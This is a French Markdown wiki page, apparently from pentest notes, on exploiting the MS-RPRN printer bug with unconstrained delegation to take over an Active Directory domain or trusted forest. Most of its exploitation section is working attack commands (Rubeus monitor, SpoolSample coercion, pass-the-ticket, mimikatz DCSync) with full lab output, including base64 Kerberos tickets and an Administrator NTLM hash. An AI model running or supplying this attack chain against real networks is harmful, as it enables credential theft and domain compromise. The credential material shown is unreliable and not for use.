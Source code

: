 ```yaml
---
title: MS-RPRN
permalink: MS_RPRN
---
```


# MS-RPRN

MS-RPRN est un protocole utilisé pour les printers. Il est cependant utilisable pour obtenir un accès administratif dans une forêt ou **sur une autre forêt avec laquelle on un trust**. (Voir [Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)).

## Exploitation

L'exploitation utilise les éléments suivants:
- Un accès administratif sur un serveur avec **Unconstrained Delegation**. Par défaut ceci est le cas de tous les contrôleurs de domaine (serveur **CHOCOBO.goldsaucer.local**).
- Un serveur ciblé (serveur **MIDGAR.shinra-inc.local**)
- Il doit y avoir un accès réseau entre les deux serveurs et un trust bidirectionnel si les deux serveurs sont dans des domaines différents (y compris des forêts différentes)
- [Rubeus](https://github.com/GhostPack/Rubeus) et [SpoolSample](https://github.com/leechristensen/SpoolSample) à compiler et mimikatz.

Sur le serveur Chocobo.goldsaucer.local lancer:

``` 
.\Rubeus.exe monitor /interval:5
```

Ce script dumpera tout TGT obtenu par le serveur (ce qui arrivera en raison de l'unconstrained delegation). Laisser tourner et lancer dans un autre terminal:

``` 
.\SpoolSample.exe MIDGAR.shinra-inc.local CHOCOBO.goldsaucer.local
```

Ce second script va utiliser le service MS-RPN pour forcer le serveur MIDGAR à s'authentifier auprès du serveur contrôlé (CHOCOBO). En raison de l'unconstrained delegation, le serveur MIDGAR va envoyer son TGT dans le ticket de service Kerberos. Sur le cmd Rubeus on devrait avoir:

```
[+] 02/12/2018 21:58:26 - 4624 logon event for 'SHINRA-INC\MIDGAR$' from '192.168.80.100'
[*] Target LUID     : 0x2987c3
[*] Target service  : krbtgt

  UserName                 : MIDGAR$
  Domain                   : SHINRA-INC
  LogonId                  : 2721731
  UserSID                  : S-1-5-21-227358413-259298668-3497230074-1001
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 02/12/2018 21:58:26
  LogonServer              :
  LogonServerDNSDomain     : SHINRA-INC.LOCAL
  UserPrincipalName        :

    ServiceName              : krbtgt/SHINRA-INC.LOCAL
    TargetName               :
    ClientName               : MIDGAR$
    DomainName               : SHINRA-INC.LOCAL
    TargetDomainName         : SHINRA-INC.LOCAL
    AltTargetDomainName      : SHINRA-INC.LOCAL
    SessionKeyType           : aes256_cts_hmac_sha1
    Base64SessionKey         : Uhj38P28/6m+AMvTlF4qPZ5iuAtsISQNCNAXGUypKME=
    KeyExpirationTime        : 01/01/1601 00:00:00
    TicketFlags              : name_canonicalize, pre_authent, renewable, forwarded, forwardable
    StartTime                : 02/12/2018 21:58:26
    EndTime                  : 03/12/2018 06:56:52
    RenewUntil               : 09/12/2018 20:56:52
    TimeSkew                 : 0
    EncodedTicketSize        : 1372
    Base64EncodedTicket      :

      doIFWDCCBVSgAwIBBaEDAgEWooIEUjCCBE5hggRKMIIERqADAgEFoRIbEFNISU5SQS1JTkMuTE9DQUyiJTAjoAMCAQKhHDAaGwZr
      cmJ0Z3QbEFNISU5SQS1JTkMuTE9DQUyjggQCMIID/qADAgESoQMCAQKiggPwBIID7FszyHoAYZaQks5oJ8sTbwBtBXG3J+eadLQ/
      ueVE52c/ejXEd8z2YVTpOeN/FPsDUYABuxH4LJbD/dKxAfQNeuTmJUg4frHWqDvOarlmqc1MpQYqVCdY6JReEBNl30N67CycgGHs
      KbtOFhX80YlZrKFYHB1E2gSqIOhetLZydr7DwcAu5sF+NUFmoVc5efCuiJEDmUSp404r+TKf809sQ/v7IFm4ZYioRVPdfD+cQtLY
      OuHgErLFvrH9JRRF2/P9SNE4rvK+lmU8OEQWUnXfRMNKDOzd3Kigq0evkshDX8B7cCX47orK7Gm1YMxSTQrRjyaPl0DFbFOkd1Kj
      Q6QTdqgKkWjKFlAM6IvaB3hzNQv5ZLy3Bx8alkIm89gdR6xxkFx7ta81HSgEB2oDr5YxnSBXcXHUjDWaY3YSo2+Cgi5b8Ck4n932
      H75me2jVSccRajYWZbzjysnB6yGtnv/BivvbjjKWeFJKUdy8Xvh4zwWMiqBjj2tARGKK1XmJCBtehb3t/6GQhVcO6reZl6iS5WOm
      Q1JuASP1iAfQimKnBzljm1wo7dac/sWtCYAL78mkE8HK2phECwlxZ38dUp/yPXxRQ+Z6lCSfxsEF4XfmXDpxBGeNWpd+uvjfXexk
      Qe/Kml6Jwc8W5BGgP/IVlU4c/fPUijKjyXQIMnJZRyeDB32ujYOQb63dwTDWuxo6WTHQapzzoGZm5XAUKikbH+EdKKM4r4qxQ8XP
      8wUbGPppU7pSFN+ZgUtvLLYDV2Md/6ztEzQrRP0rd2uPLYXT6nef75VjR9UEKA1Gjxo8WvyvaXZdRKJQdvi4eWOr4luq3Re70/hF
      Fb8FccI8sEgpS9075dmEEKWgcEt3223ZBwBSbOqF6Emg0wQBypWfEquub57axbdsDop4557YSqliDXGd1DhvWENCGez4nPM4NQYj
      h3X0WeaKC03noJlqiWqXMnYUAoq7Cdo5OCvYORj8XT8eMV9vDXRe16wZVDvcUfqJnLa0605rNZwuX6adkLlre+G7rsJE7UReb6J0
      nnXxJwYHGq0QjilKJp5LX3AB1CexixZdkgxgnXgieQPOUsUton77/OFigcLQKk1/sfY6Qg+wSUxh9kGYCigqFultUp4s6E9cKeSG
      7w+Yb3Kty9XoxCCGAzF5gW2OU58gdHGk5qY+9d8YR35R5C9DLhY3tbtm8+Z1tYeyRUWw0k+Hi1Fwzm4qa0SyNTcFDI6xLmxUtnzJ
      Ce/oN3drOO25QwnLtEPhyBE3UK1RWAaBWetWKFLzAwv8hCyG288MU/8lPMqDXKkddHY43JlCIZzXOlO0X0KmKdJMaEVUUXf0V28h
      ZX/lo4HxMIHuoAMCAQCigeYEgeN9geAwgd2ggdowgdcwgdSgKzApoAMCARKhIgQgUhj38P28/6m+AMvTlF4qPZ5iuAtsISQNCNAX
      GUypKMGhEhsQU0hJTlJBLUlOQy5MT0NBTKIUMBKgAwIBAaELMAkbB01JREdBUiSjBwMFAGChAAClERgPMjAxODEyMDIyMTU4MjZa
      phEYDzIwMTgxMjAzMDY1NjUyWqcRGA8yMDE4MTIwOTIwNTY1MlqoEhsQU0hJTlJBLUlOQy5MT0NBTKklMCOgAwIBAqEcMBobBmty
      YnRndBsQU0hJTlJBLUlOQy5MT0NBTA==

[*] Extracted  1 total tickets
```

On peut alors utiliser mimikatz (ou autre) pour faire un DCsync en utilisant le TGT récupéré. Rubeus permet de faire un pass the ticket:

```
.\Rubeus.exe ptt /ticket:doIFWDCCBVSgAwIBBaEDAgEWooIEU
jCCBE5hggRKMIIERqADAgEFoRIbEFNISU5SQS1JTkMuTE9DQUyiJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEFNISU5SQS1JTkMuTE9DQUyjggQCMIID/qADAgESo
QMCAQKiggPwBIID7F+UEe4HvHR188pbTGRg6+Smi1g5oGhtGqLSUYkDc/bViq8CfwcY2R9FgMqLoTUjUyjFXtsUvTUvoJ8boq7xt4LeUi6+JaCICTZsWy/DG
uisnNpZat1IOP5If7pvJPWwyZApWUMQfK21AHv4T/9lCes6Ilqk3ml3UX+l+rvJjIOxs3To/yhBZuWsxpaTsmg+FIyhY1HpsFuoMIP1GxPKDHuWKeKfOGHxG
2llYZp68f8Je6NpU120XdQC/dBbn2mY972fBfJfD4IpB7QkSAFHkX+vdEFUq4zIk+k/ge8fp4IZSIXzYEn+Bs3i1NqH0XRM23MoALD+h+HhX4bTaYMUeX3mr
W/Eg1mAwIwcDyqUjXT1vcwYNgoOUWKvondsKQBEEGB6VC2eiCFAdEoRSYpNNc8RBB0KPJ87zGLH4zBr6YNuAFj0RAW0WrNL5kImj6LfkUJ7fA+8L30/lqQ/M
/ryOlF43XZ35EuYZr+EADpWmNZgJ0kGyJQH5260xaPqPzrszlMgIqf25ZtplWU3hgYEGnkPtSPqDCfN+OpscSjBylASuzoPglF/2mWNbOoB0LgjUig9apACC
kRjDZhi21BI13RJHLntlzAwQhyUPv648RCPXFfW5wqxrUdzr1FZuPko0ms6hBntCC/FjHRLFElKdSrAGFWxiUE4FFrz9Urn0TsmpbHpzLE0oNpbKqWoC88x4
FNdWoGTRSOQl4syeMrzmpYTVLsCc5J2hQmk+oX2YaewfeEs1yRDWJt8WnHrCUUap04pIFewdlwnG5ojQJuGZuDtsTrBNkRLjcEoYxzmNrMMHYd/OMql30siW
k9Rrpn9lDX7P68fgC1R5rG/1ZyVXPvdcHEQO3i5QWPWF2gmjDznXBroMTOd4cxRZDllWaSPH77RJ7g0eOZLKRW3fd4AVNJBShZ6BqwK1xbhrne9OuBIf/1PE
k77F628T2dJ4H6mG/jnbdih92yQkXOiAYlcpkUBK4I7e/6mKeHt4egHGk0vPjw8u4wu7WGQtFGo9uE1euhELm+Q6l5zlAVLd7rb2vAVPqruFntssfe4RlKse
yN/V+kVteIyAf4u7lyEC64JEjVJHJN2BhrUcFjMY7XzhWKqnubR3zpr7ruk7rxwfP1DC6VbeHwo/GWWbIkn3TMo98NaBSUP0h7UqKtN6WOko8us6LfpBZAOx
ylnFaBS+Erfz4OPD5tlivR0EXFVp6hvKjHb9mfSdtOqAAKaGXV/1NULPUIVtgbyWnDKbj1S6f7wypzBHAnrfWJjfP3EeoNmZt4Xq1xcioEu1ZKYQTOMmfvW7
Epomgc8yidpJHQMb2VJtwVXhuyOGmwvXAVgo4HxMIHuoAMCAQCigeYEgeN9geAwgd2ggdowgdcwgdSgKzApoAMCARKhIgQgv+cfRiBxpphRN8cgCT5Khg3K5
uYK/oaeXVxIm8hTuWehEhsQU0hJTlJBLUlOQy5MT0NBTKIUMBKgAwIBAaELMAkbB01JREdBUiSjBwMFAGChAAClERgPMjAxODEyMDIyMDU2NTJaphEYDzIwM
TgxMjAzMDY1NjUyWqcRGA8yMDE4MTIwOTIwNTY1MlqoEhsQU0hJTlJBLUlOQy5MT0NBTKklMCOgAwIBAqEcMBobBmtyYnRndBsQU0hJTlJBLUlOQy5MT0NBT
A==

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.2.1


[*] Action: Import Ticket
[+] Ticket successfully imported!
```

On peut alors faire un dcsync avec mimikatz (ici on récupère le hash de Administrator, mais on pourrait récupérer celui de krbtgt):

```
.\mimikatz.exe "lsadump::dcsync /domain:SHINRA-INC.local /user:SHI
NRA-INC\Administrator"

  .#####.   mimikatz 2.1.1 (x64) built on Sep 25 2018 15:08:14
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /domain:SHINRA-INC.local /user:SHINRA-INC\Administrator
[DC] 'SHINRA-INC.local' will be the domain
[DC] 'MIDGAR.SHINRA-INC.local' will be the DC server
[DC] 'SHINRA-INC\Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 01/01/1601 00:00:00
Password last change : 01/12/2018 21:45:58
Object Security ID   : S-1-5-21-227358413-259298668-3497230074-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: d961c5ec5be55f242a4e0671d364fda4
```

## Références
- [Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [SpoolSample](https://github.com/leechristensen/SpoolSample) 
